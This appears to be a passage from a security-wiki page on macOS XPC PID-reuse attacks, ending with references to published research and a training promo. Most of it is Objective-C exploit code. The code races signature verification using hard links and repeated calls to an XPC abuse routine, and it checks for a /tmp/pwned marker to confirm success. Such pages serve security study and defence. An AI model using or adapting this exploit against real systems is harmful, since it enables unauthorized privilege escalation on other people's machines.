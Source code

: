 ```objectivec
    // Wait for children to finish their tasks
    sleep(3);

    // Terminate child processes
    for (int i = 0; i < RACE_COUNT; i++) {
        if (pids[i]) {
            kill(pids[i], 9);
        }
    }
}

int main(int argc, const char * argv[]) {
    // Create and set execution rights to 'hard_link' file
    system("touch hard_link");
    system("chmod +x hard_link");
    
    // Create thread to exploit sign verification RC
    pthread_t thread;
    pthread_create(&thread, NULL, check_race, NULL);

    while(!pwned) {
        // Try creating 'download' directory, ignore errors
        system("mkdir download 2>/dev/null");

        // Create a hardlink
        // TODO: CHANGE NAME OF FILE FOR SIGN VERIF RC
        system("ln hard_link download/legit_bin");

        xpc_pid_rc_abuse();
        usleep(10000);

        // The payload will generate this file if exploitation is successfull
        if (access("/tmp/pwned", F_OK ) == 0) {
            pwned = true;
        }
    }

    return 0;
}
```
{% endtab %}
{% endtabs %}

## Refereces

* [https://wojciechregula.blog/post/learn-xpc-exploitation-part-2-say-no-to-the-pid/](https://wojciechregula.blog/post/learn-xpc-exploitation-part-2-say-no-to-the-pid/)
* [https://saelo.github.io/presentations/warcon18\_dont\_trust\_the\_pid.pdf](https://saelo.github.io/presentations/warcon18\_dont\_trust\_the\_pid.pdf)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

